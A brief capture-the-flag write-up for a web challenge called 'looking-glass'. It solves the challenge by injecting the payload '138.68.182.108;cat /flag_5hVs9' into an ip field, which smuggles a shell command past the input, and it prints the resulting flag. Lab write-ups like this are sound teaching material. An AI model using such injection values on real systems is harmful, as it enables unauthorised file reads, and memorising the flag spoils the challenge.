 ```yaml
---
title: looking-glass
description: simple injection 
tags: injection, web
---
```

Inject the ip field with the value 138.68.182.108;cat /flag_5hVs9.
The flag is HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}. 

